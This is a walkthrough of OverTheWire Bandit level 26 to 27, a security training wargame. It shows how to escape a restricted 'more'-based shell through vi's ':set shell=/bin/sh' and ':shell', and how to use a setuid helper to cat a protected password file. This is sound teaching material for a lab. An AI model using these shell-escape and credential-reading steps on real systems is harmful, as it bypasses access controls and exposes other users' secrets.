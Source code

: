 # **Bandit Level 26 → Level 27**

---

## **🧩 Challenge Description**

Good job getting a shell! Now hurry and grab the password for bandit27!

---

## Explanation

This level continues the concept of restricted environments. When logged in, you're again limited by a custom shell that uses `more`. By pressing `v`, you enter `vi`, and from there, use `:set shell=/bin/sh` followed by `:shell` to spawn an unrestricted shell. Once inside, a special executable `bandit27-do` is found. This program runs any command with the permissions of `bandit27`, allowing us to execute `cat /etc/bandit_pass/bandit27` and retrieve the next password. This level demonstrates shell manipulation, use of `vi` to escape restricted environments, and exploiting setuid binaries.

---

# 🛠️ Commands Used

```bash
1. login to bandit26 using the private key (same as in the previous level):

ssh -i bandit26.sshkey bandit26@bandit.labs.overthewire.org -p 2220

2. While in the restricted shell (text viewer using more), press:

v
This opens the message in vi.

3. In vi, set the shell manually:
:set shell=/bin/sh
Then open the shell from vi:

:shell

4. You now have access to a shell! List the files:

ls
You’ll see a binary file named bandit27-do.

5. Run the binary with the command to read the next password:

./bandit27-do cat /etc/bandit_pass/bandit27
```

---

## ✅ Output

---